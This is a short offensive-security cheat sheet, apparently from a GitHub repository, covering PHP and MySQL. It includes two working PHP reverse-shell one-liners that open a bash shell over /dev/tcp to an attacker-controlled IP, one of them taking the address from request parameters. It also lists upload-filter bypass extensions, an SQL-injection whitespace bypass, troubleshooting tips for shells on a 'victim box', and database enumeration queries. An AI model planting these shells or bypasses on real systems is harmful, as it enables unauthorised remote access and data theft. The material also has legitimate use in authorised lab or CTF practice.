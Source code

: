 # Summary
* [PHP](##PHP)
* [MySQL](##MySQL)

## PHP
* Turn on logging
```
// Uncomment the following line to /etc/php5/apache2/php.ini
$ sudo vi /etc/php5/apache2/php.ini
display_errors = On

// Restart the apache service 
$ sudo systemctl restart apache2
```

### PHP Shells
* User Supplied IP and Port
```php
<?php $ip=$_GET['ip']; $port=$_GET['port']; $string = \"/bin/bash -c 'bash -i >& /dev/tcp/\".$ip.\"/\".$port.\" 0>&1'\"; exec($string); ?>
```
* Hardcoded IP and Port
```php
<?php exec(\'/bin/bash -c \"bash -i >& /dev/tcp/<<ATTACKER IP>>/<<PORT>> 0>&1\"\'); ?>
```

### Extensions
* .phtml 
* .PHP
* .php;.txt
* .php%00

### Tips for troubleshooting reverse shell
* ssh into victim box and test out bash command 
* Run php from the box directly
```
$ php -f phpshell.php
```
* Attempt port 443
* Try a different shell
* Confirm OS (Linux or Windows)

## MySQL
* Turn on logging
```
// Uncomment the following line in /etc/mysql/my.cnf
$ sudo nano /etc/mysql/my.cnf
general_log_file = /var/log/mysql/mysql.log

// Restart mysql
$ sudo systemctl restart mysql

// Review log file
$ sudo tail -f /var/log/mysql/mysql.log
```
* Logging in
```
mysql -uroot -p
```
* Alternative to space 
```
/**/
```
* Get MySQL version
```
select version();
```
* [Common Queries](https://github.com/sqlmapproject/sqlmap/blob/c9ab8ae60e06ca3cd53f1ea80f79bcb65387cef9/xml/queries.xml)
* Finding and pulling a specific value
```
mysql> show databases;
mysql> use [database_name];
mysql> show tables;
mysql> describe [table_name];
mysql> select [table_column] from [database_name].[table_name] LIMIT 0,1;
```
